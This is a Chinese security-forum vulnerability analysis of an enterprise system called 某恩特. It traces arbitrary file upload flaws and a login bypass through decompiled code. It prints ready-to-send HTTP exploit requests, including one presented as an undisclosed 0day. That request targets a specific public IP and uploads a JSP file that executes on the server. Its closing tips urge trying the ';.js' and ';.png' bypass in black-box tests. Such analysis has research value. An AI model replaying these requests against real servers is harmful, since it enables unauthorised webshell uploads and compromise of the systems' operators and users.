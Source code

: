 

# 某恩特漏洞分析 - 先知社区

某恩特漏洞分析

- - -

0X01 前言  
最近这段时间某恩特，公众号到处在发，该系统的 0day 漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的 0day  
基本上都是这两天的，非常的集中  
[![](assets/1700545080-4de77c3fd1fa5ba9697af31eb758ef09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121095118-76d6be52-8810-1.png)

0X02 漏洞分析  
我们来看一下最开始原始的 POC

POST /entsoft\_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1  
Host: x.x.x.x  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_14\_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15  
Connection: close  
Content-Length: 27  
Accept: */*  
Accept-Encoding: gzip, deflate  
Accept-Language: en  
Content-Type: application/x-www-form-urlencoded

11111  
定位到 fileupload.jsp 文件，只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
[![](assets/1700545080-c69c9a446a3e5e3c56b6f7dfe80ffa74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140031-f26fe23a-86a0-1.png)  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了 2 个  
[![](assets/1700545080-4b7e76abaac380f47624b4f6e858df8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140037-f5db5fee-86a0-1.png)  
且这套系统对 jsp 之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞 fileupload.jsp 在开发者允许访问白名单中  
[![](assets/1700545080-ad4ec6403cdc0153e8a990e74e895835.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140042-f924eb52-86a0-1.png)  
继续深入探索，查看 web.xml，发现 Filter，通过 jd-gui 反编译 common.jar 文件即可查看相关代码  
[![](assets/1700545080-e2d833d7a6a3fe0b9dd9ab85e48b1da8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140048-fc632f86-86a0-1.png)  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
[![](assets/1700545080-17eea2480839a504d92aa21444377f3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140054-ffdf9ece-86a0-1.png)  
其判断鉴权部分模块，通过 contains 来判断是否包含需要排除的字符和路径  
[![](assets/1700545080-62a8e58e60ac49a479a4ff29eec89e31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140101-040a34aa-86a1-1.png)  
所以访问 jsp 文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html 等方式绕过登录限制  
[![](assets/1700545080-91655dd4e0fb1dc653d48c7ef75929b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140110-09b8bbc4-86a1-1.png)  
[![](assets/1700545080-bac142f8d6d79df23a7fd2b6cbb27cb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140115-0c855d94-86a1-1.png)  
而 entsoft\_en 也赫然在列，再去看看 entsoft 中的 filupload.jsp，和其他相关的 upload  
[![](assets/1700545080-76e0d41acc00e2de3e671647f3526d66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140121-0fff1d66-86a1-1.png)  
依然是个妥妥的任意文件上传，只不过判断了文件是否是 jpg，如果是后缀就变成了 jpeg  
[![](assets/1700545080-b40026e8fa4496cebc452ddc05da3d85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140126-13548032-86a1-1.png)  
继续查看 web.xml  
[![](assets/1700545080-b3e2869f7f2a503b20c0b313f2be9008.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140131-1658d6b6-86a1-1.png)  
定位到实现类，  
[![](assets/1700545080-85db2028c97340adcaefecf221d2922c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140220-337876ac-86a1-1.png)  
反编译查看  
[![](assets/1700545080-debb59d71de69659cacfc43c65f4e221.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140225-362a11da-86a1-1.png)  
定位到 MailAction，获取到了三个参数，method，act，eid，后面判断 method 和 act 是对应的值，如果是则跳到对应的实现方法中，比如 saveAttaFile�  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
[![](assets/1700545080-489a971f8ada98b6abb00d253cebb51f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140231-39a77a50-86a1-1.png)  
利用 POC  
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1  
Host: xx  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A  
Content-Length: 179

\------WebKitFormBoundarye8FPHsIAq9JN8j2A  
Content-Disposition: form-data; name="file";filename="beautif.js"  
Content-Type: xxx/txt

1  
\------WebKitFormBoundarye8FPHsIAq9JN8j2A--  
POC 中的;.png 同上，绕过登录限制，继续查看该代码文件发现其 AppUpload�方法也存在文件上传功能，其文件名判断了 contentype 是否不为空，以及 contentype 是否包含 image，之后在取 contentype 中的值作为后缀，我们可以通过 image/jsp 绕过

[![](assets/1700545080-7c30ded05422f7dc3c98057d93b8e63e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140242-40bbe880-86a1-1.png)

[![](assets/1700545080-2d2b4bd0030d128f3fd5670347988637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140250-45245cae-86a1-1.png)

[![](assets/1700545080-2345d3487747a6d7e113b4cef5de63eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140254-478e2948-86a1-1.png)

最新的 POC  
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1  
Host: 47.91.254.208  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
X-Requested-With: XMLHttpRequest  
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351  
Content-Length: 259  
Origin:  
Connection: close  
Referer:  
Cookie:

\-----------------------------255059884712683317431739889351  
Content-Disposition: form-data; name="file"; filename="1.png"  
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>  
\-----------------------------255059884712683317431739889351--  
其他 Action 中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。  
0X03 总结  
感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx 可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正。
